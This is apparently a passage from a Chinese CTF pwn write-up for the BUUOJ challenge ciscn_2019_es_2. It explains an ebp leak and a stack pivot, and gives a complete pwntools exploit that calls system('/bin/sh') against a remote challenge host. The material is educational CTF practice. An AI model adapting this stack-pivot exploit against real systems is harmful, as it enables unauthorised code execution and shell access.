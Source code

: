 ```
p.interactive()

```

### ciscn_2019_es_2

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghv80vzq73j30oo06c0sy.jpg)

主要函数

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghv8feyy1sj30r20buq3p.jpg)

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghv8fi56k5j30ng05wdfv.jpg)

栈溢出，两次输入机会，一次泄露ebp后栈迁移，让esp指向我们可以控制输入的地址，从而增加可写rop链的栈长度

在栈中写入"/bin/sh"作为system函数的参数

exp

```
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

elf = ELF('./ciscn_2019_es_2')
#p = process('./ciscn_2019_es_2')
p = remote("node3.buuoj.cn", 27074)
#gdb.attach(p,'b *0x80485fd')

leave = 0x080485FD
system = 0x08048400
ret = 0x08048636
p.recvuntil('What\'s your name?')
p.sendline('a'*39)
p.recvline()
p.recvline()
ebp = u32(p.recv(4))
print hex(ebp)
payload = p32(ebp)+p32(system)+p32(0)+p32(ebp-40)+'/bin/sh\x00'+'a'*16+p32(ebp-56)+p32(leave)
p.send(payload)
p.interactive()
```

不知道什么原因，我把"/bin/sh"字符串写在前面执行system函数就会失败

### ciscn_2019_es_2

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlly1ghvuyiswskj30mu062q34.jpg)
